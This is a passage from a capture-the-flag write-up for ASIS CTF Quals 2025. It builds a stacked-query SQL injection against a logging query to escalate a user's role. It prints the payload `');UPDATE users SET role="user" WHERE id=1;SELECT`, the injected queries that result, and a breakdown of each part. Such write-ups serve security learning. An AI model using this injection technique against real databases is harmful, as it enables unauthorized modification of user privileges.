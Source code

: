 Let's start with small. Can we bypass the length check? Sadly, it also validates the type must be `string`. So, we can't use tricks like passing an object or array like this:

```
url[]=payload_here
// -> url=['payload_here']
```

We also can't use character `-`, which is useful for commenting out the invalid syntax. To bypass this, maybe we could use the multi-line comment syntax, `/* ... */`. For the `/` character, our payload shouldn't have this character, so we can safely ignore this. (*Definitely not foreshadowing :(*)

Now, our goal is to insert a new user record to table `tables` or update our user record, so that we'll have role `user`. For inserting a new record, I don't think we have enough payload length to do so. Let's go with the update route first!

After countless time of debugging, I came up with the following payload:

```sql
');UPDATE users SET role="user" WHERE id=1;SELECT
```

After the injection, the query will become this:

```sql
INSERT INTO logs
VALUES('');UPDATE users SET role="user" WHERE id=1;SELECT');
SELECT *
FROM logs
WHERE entry = '');UPDATE users SET role="user" WHERE id=1;SELECT'
LIMIT 1;
```

Beautified:

```sql
INSERT INTO logs VALUES('');
UPDATE users SET role="user" WHERE id=1;
SELECT');
SELECT *
FROM logs
WHERE entry = '');UPDATE users SET role="user" WHERE id=1;SELECT' LIMIT 1;
```

- `');`: Close the quote and the `VALUES` clause. As well as ending the `INSERT INTO` query
- `UPDATE users SET role="user" WHERE id=1;`: Update table `users` column `role` to `user`, where the user ID is `1`
- `SELECT'`: Start a new `SELECT` clause and makes everything after it to be a string

Note: Our injected `UPDATE` clause's strings must be double quote, not single quote. Otherwise it'll break the syntax in the `SELECT` clause:

[https://sqliteonline.com/](https://sqliteonline.com/):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909164113.png)

But wait a minute... How can we know our user ID?

Conveniently, the application has route `/me` in router `auth`, which displays the `req.session.user` object in JSON format, including our user ID:
